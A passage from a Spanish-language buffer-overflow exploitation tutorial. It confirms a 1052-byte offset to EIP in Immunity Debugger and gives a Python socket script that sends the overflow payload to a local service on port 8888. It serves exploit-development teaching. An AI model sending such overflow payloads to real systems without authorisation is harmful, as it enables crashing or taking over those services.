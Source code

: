 Una vez generada la cadena se la enviaremos al programa, que deberemos de volver e abrirlo y adjuntarlo en *Immunity Debugger*.

![valor de eip 4 b en hexadecimal](/assets/img/valor-de-eip-4-b-en-hexadecimal.png)

El valor de *EIP* vale las *4* "*B*" que hemos enviado y justamente todos los valores anteriores serán las *1052* "*A*" restantes.

## **Definiendo la estructura inicial del script**

Vamos a empezar a crear nuestro pequeño script en *Python3* que nos ayudará a explotar el *BoF*.

```python
# Librerias
import socket

# Variables Globales
ip = "127.0.0.1" # Dirección IP destino
port = 8888 # Puerto destino

offset = b"A"*1052 # Definiendo el offset antes de llegar al EIP
eip = b"B"*4 # Contenido de EIP

# Funcion encargada de explotar el BoF
def bof():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Creando la conexión
	s.connect((ip, port)) # Conectandonos a la aplicación (ip:port)

	payload = offset + eip # Definiendo el payload a enviar a la aplicación

	s.send(payload) # Enviando el payload

# Funcion Main
if __name__ == '__main__':
	bof() # Funcion encargada de explotar el BoF
```
